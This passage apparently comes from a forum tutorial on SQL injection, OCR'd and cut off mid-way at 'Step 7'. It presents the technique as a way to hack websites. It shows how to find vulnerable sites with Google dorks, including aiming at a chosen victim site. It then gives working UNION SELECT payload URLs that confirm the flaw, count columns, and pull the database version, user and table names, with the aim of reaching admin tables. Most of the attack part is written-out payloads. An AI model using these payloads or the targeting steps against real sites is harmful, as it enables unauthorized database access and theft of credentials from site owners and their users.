 columns):  For inserting data to table. For eg: insert into users(username,userid) values("BreakTheSec","break");  I will give more detail and query in my next thread about the SQL QUERY.   What is SQL Injection?  SQL injection is Common and famous method of hacking at present . Using this method an unauthorized person can access the database of the website. Attacker can get all details from the Database.  What an attacker can do?   * ByPassing Logins * Accessing secret data * Modifying contents of website * Shutting down the My SQL server  Now let's dive into the real procedure for the SQL Injection.  Follow my steps.  Step 1: Finding Vulnerable Website:  Our best partner for SQL injection is Google. We can find the Vulnerable websites(hackable websites) using Google Dork list. google dork is searching for vulnerable websites using the google searching tricks. There is lot of tricks to search in google. But we are going to use "inurl:" command for finding the vulnerable websites.  Some Examples:  inurl:index.php?id= inurl:gallery.php?id= inurl:article.php?id= inurl:pageid=  Here is the huge list of Google Dork  http://www.ziddu.com/download/13161874/A...t.zip.html   How to use?  copy one of the above command and paste in the google search engine box. Hit enter. You can get list of web sites. We have to visit the websites one by one for checking the vulnerability. So Start from the first website.    Note:if you like to hack particular website,then try this:  site:www.victimsite.com dork_list_commands for eg:  site:www.victimsite.com inurl:index.php?id=  Step 2: Checking the Vulnerability: Now we should check the vulnerability of websites. In order to check the vulnerability ,add the single quotes(') at the end of the url and hit enter. (No space between the number and single quotes)  For eg:   http://www.victimsite.com/index.php?id=2'  If the page remains in same page or showing that page not found or showing some other webpages. Then it is not vulnerable.   If it showing any errors which is related to sql query,then it is vulnerable. Cheers..!!  For eg:  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1  Step 3: Finding Number of columns:  Now we have found the website is vulnerable. Next step is to find the number of columns in the table.  For that replace the single quotes(') with "order by n" statement.(leave one space between number and order by n statement)  Change the n from 1,2,3,4,,5,6,...n. Until you get the error like "unknown column ".   For eg:   http://www.victimsite.com/index.php?id=2 order by 1 http://www.victimsite.com/index.php?id=2 order by 2  http://www.victimsite.com/index.php?id=2 order by 3  http://www.victimsite.com/index.php?id=2 order by 4  change the number until you get the error as "unknown column"  if you get the error while trying the "x"th number,then no of column is "x-1".   I mean:   http://www.victimsite.com/index.php?id=2 order by 1(noerror) http://www.victimsite.com/index.php?id=2 order by 2(noerror) http://www.victimsite.com/index.php?id=2 order by 3(noerror) http://www.victimsite.com/index.php?id=2 order by 4(noerror) http://www.victimsite.com/index.php?id=2 order by 5(noerror) http://www.victimsite.com/index.php?id=2 order by 6(noerror) http://www.victimsite.com/index.php?id=2 order by 7(noerror) http://www.victimsite.com/index.php?id=2 order by 8(error)    so now x=8 , The number of column is x-1 i.e, 7.  Sometime the above may not work. At the time add the "--" at the end of the statement.  For eg:  http://www.victimsite.com/index.php?id=2 order by 1--  Step 4: Displaying the Vulnerable columns:  Using "union select columns_sequence" we can find the vulnerable part of the table. Replace the "order by n" with this statement. And change the id value to negative(i mean id=-2,must change,but in some website may work without changing).  Replace the columns_sequence with the no from 1 to x-1(number of columns) separated with commas(,).   For eg:  if the number of columns is 7 ,then the query is as follow:   http://www.victimsite.com/index.php?id=-2 union select 1,2,3,4,5,6,7--  If the above method is not working then try this:  http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,3,4,5,6,7--   It will show some numbers in the page(it must be less than 'x' value, i mean less than or equl to number of columns).   Like this:      Now select 1 number. It showing 3,7. Let's take the Number 3.  Step 5: Finding version,database,user  Now replace the 3 from the query with "version()"  For eg:   http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,version(),4,5,6,7--   It will show the version as 5.0.1 or 4.3. something like this.   Replace the version() with database() and user() for finding the database,user respectively.   For eg:   http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,database(),4,5,6,7--   http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,user(),4,5,6,7--  If the above is not working,then try this:  http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,unhex(hex(@@version)),4,5,6,7--    Step 6: Finding the Table Name   if the version is 5 or above. Then follow these steps.  Now we have to find the table name of the database. Replace the 3 with "group_concat(table_name) and add the "from information_schema.tables where table_schema=database()"  For eg:    http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema=database()--  Now it will show the list of table names. Find the table name which is related with the admin or user.       Now select the "admin " table.   if the version is 4 or some others, you have to guess the table names. (user, tbluser).  It is hard and bore to do sql inection with version 4.   Step 7: